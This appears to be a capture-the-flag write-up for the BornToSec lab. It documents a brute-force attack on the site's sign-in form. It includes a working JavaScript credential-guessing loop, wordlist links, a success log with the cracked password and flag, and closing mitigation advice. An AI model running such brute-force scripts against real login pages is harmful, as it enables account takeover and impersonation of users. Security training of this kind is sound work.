# Sign in form Bruteforce

## How we found the breach

On the page `http://IP/?page=signin` we can find the sign in form, it takes a username and a password.

After hacking into the server database we found several user's usernames in database.

To see how we've scanned the data please look at:

[SQL injection on members table explanation →](../../sql_injection_members_table/Ressources/Explanation.md)

```js
// Only surname
"me", "GetThe",
// Surname + First name
"GetTheFlag", "meone", "metwo", "methree",
```

Also after scanning the whole database we did not found any password columns in any tables.

This is why we went for the bruteforce option, even more when there's not visible protection about it after several attempts.

### The Bruteforce script

We will use the following password and usernames dataset for the form inputs value:

- [usernames →](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt)
- [passwords →](https://github.com/danielmiessler/SecLists/blob/master/Passwords/darkweb2017-top1000.txt)

We will then hit the endpoint below with all the possibilities until the server returns an authenticated page.

```js
`http://IP/?page=signin&username=${username}&password=${password}&Login=Login#`
```

#### The main logic

```js
  await Promise.all(usernameCollection.map(async username => {
        for (const password of passwordCollection) {
            try {
                const endpointToHit = getEndpoint({ username, password });
                const response = await fetch(endpointToHit);
                const renderedPage = await response.text()
                const attemptFailed = renderedPage.includes(BAD_AUTH_ERROR_IMAGE)

                // In case of wrong authentication attempt the following image is rendered by the server
                // The Status code stays 200
                // <img src="images/WrongAnswer.gif" alt=""> 
                if (attemptFailed) {
                    console.log(`FAILURE for pair: username=${username} password=${password}`)
                    continue
                } else {
                    console.log(`SUCCESS for pair: username=${username} password=${password}`)
                    console.log({ renderedPage })
                    console.log('_'.repeat(10))
                    break;
                }

            } catch (e) {
                console.log(`Unknown error on attempt for username=${username} password=${password}`)
                continue
            }
        }
    }))
```

Run the script using (do not forget to install the dependencies before):
```bash
node script.js
```

After running the script, it leads to a successful attempt for all the concurrent users on the 95th password: `shadow`.
Indeed the username is not mandatory, filling the password input with `shadow` is enough the retrieve the flag from the server.

#### Log snippet

```zsh
# ...
FAILURE for pair: username=wil password=696969
FAILURE for pair: username=admin password=letmein
FAILURE for pair: username=metwo password=696969
FAILURE for pair: username=methree password=696969
FAILURE for pair: username=meone password=696969
FAILURE for pair: username=GetThe password=696969
FAILURE for pair: username=GetTheFlag password=696969
SUCCESS for pair: username=wil password=shadow
{
  renderedPage: '<!DOCTYPE HTML>\n' +
    '<html>\n' +
    '\t<head>\n' +
    '\t\t<title>BornToSec - Web Section</title>\n' +
    '\t\t<meta http-equiv="content-type" content="text/html; charset=utf-8" />\n' +
    '\t\t<meta name="description" content="" />\n' +
    '\t\t<meta name="keywords" content="" />\n' +
    '\t\t<!--[if lte IE 8]><script src="js/html5shiv.js"></script><![endif]-->\n' +
    '\t\t<script src="js/jquery.min.js"></script>\n' +
    '\t\t<script src="js/skel.min.js"></script>\n' +
    '\t\t<script src="js/skel-layers.min.js"></script>\n' +
    '\t\t<script src="js/init.js"></script>\n' +
    '\t\t<noscript>\n' +
    '\t\t\t<link rel="shortcut icon" type="image/x-icon" href="/favicon.ico" />\n' +
    '\t\t\t<link rel="icon" type="image/x-icon" href="favicon.ico" />\n' +
    '\t\t\t<link rel="stylesheet" href="css/skel.css" />\n' +
    '\t\t\t<link rel="stylesheet" href="css/style.css" />\n' +
    '\t\t\t<link rel="stylesheet" href="css/style-xlarge.css" />\n' +
    '\t\t</noscript>\n' +
    '\t</head>\n' +
    '\t<body class="landing">\n' +
    '\t\t<!-- Header -->\n' +
    '\t\t<header id="header" >\n' +
    '\t\t\t\t\t\t\t\t<a href=http://192.168.56.101><img src=http://192.168.56.101/images/42.jpeg height=82px width=82px/></a>\n' +
    '\t\t\t\t\t\t\t\t<nav id="nav">\n' +
    '\t\t\t\t\t<ul>\n' +
    '\t\t\t\t\t\t<li><a href="index.php">Home</a></li>\n' +
    '\t\t\t\t\t\t<li><a href="?page=survey">Survey</a></li>\n' +
    '\t\t\t\t\t\t<li><a href="?page=member">Members</a></li>\n' +
    '\t\t\t\t\t</ul>\n' +
    '\t\t\t\t</nav>\n' +
    '\t\t\t</header>\n' +
    '\n' +
    '\t\t<!-- Main -->\n' +
    '\t\t\t<section id="main" class="wrapper">\n' +
    '\t\t\t\t<div class="container" style="margin-top:75px">\n' +
    '<center><h2 style="margin-top:50px;">The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2 </h2><br/><img src="images/win.png" alt="" width=200px height=200px></center>\t\t\t\t</div>\n' +
    '\t\t\t</section>\n' +
    '\t\t<!-- Footer -->\n' +
    '\t\t\t<footer id="footer">\n' +
    '\t\t\t\t<div class="container">\n' +
    '\t\t\t\t\t<ul class="icons">\n' +
    '\t\t\t\t\t\t<li><a href="index.php?page=redirect&site=facebook" class="icon fa-facebook"></a></li>\n' +
    '\t\t\t\t\t\t<li><a href="index.php?page=redirect&site=twitter" class="icon fa-twitter"></a></li>\n' +
    '\t\t\t\t\t\t<li><a href="index.php?page=redirect&site=instagram" class="icon fa-instagram"></a></li>\n' +
    '\t\t\t\t\t</ul>\n' +
    '\t\t\t\t\t<ul class="copyright">\n' +
    '\t\t\t\t\t\t<a href="?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f"><li>&copy; BornToSec</li></a>\n' +
    '\t\t\t\t\t</ul>\n' +
    '\t\t\t\t</div>\n' +
    '\t\t\t</footer>\n' +
    '\t</body>\n' +
    '</html>\n' +
    '\n'
}
__________
# ...
```

## How to exploit the breach

From there we could perform any operation we want inside the application, authenticated as the hacked user.

For example for mailBox account we could send emails impersonating the hacked user.

And overall we could even change the user's password depending on the application security rigor.

## How to avoid the breach

Several solution or good practices exist, such as limiting the amount of request from the same IP or adding a recaptcha usage on the form.

[2FA](https://en.wikipedia.org/wiki/Multi-factor_authentication) authentication such a google Authenticator, requesting the user to validate it's identity on one of his other devices.
